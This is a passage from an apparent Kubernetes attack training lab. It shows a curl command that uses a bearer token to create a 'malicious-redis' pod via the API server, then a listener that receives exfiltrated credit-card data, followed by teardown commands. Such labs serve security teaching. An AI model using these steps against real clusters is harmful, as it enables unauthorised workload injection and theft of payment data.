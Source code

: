 * Step 27: Create the `malicious-redis` pod

```commandline
curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure
```

* Step 28: Switch to the right pane, navigate to the `K8s-Cluster-Attack` directory and setup the listener. `ctrl` + `b` + `(right arrow key)`

```commandline
cd /root/container-training/Kubernetes/K8s-Cluster-Attack
```
```commandline
python3 tornado_server.py
```

### *You should now see all the credit-card details being posted to the listener from the malicious redis pod*

#### *Teardown*:

* Step 1: Stop the listener with `ctrl` + `c`. Terminate the pods and services that were created

```commandline
cd /root/container-training/Kubernetes/K8s-Cluster-Attack
```
```commandline
kubectl delete -f ngflask-redis-service.yml -f redis-service.yml -f ngflaskredis-deployment.yml
```

* Step 2: Check if other `pods` or `configmaps` are on the cluster and delete them

```commandline
kubectl get pods
```
```commandline
kubectl delete pod mal-redis
```
```commandline
kubectl delete configmap nginx-config
```

* Step 3: Exit from the tmux sessions

```commandline
exit
```
```commandline
exit
```
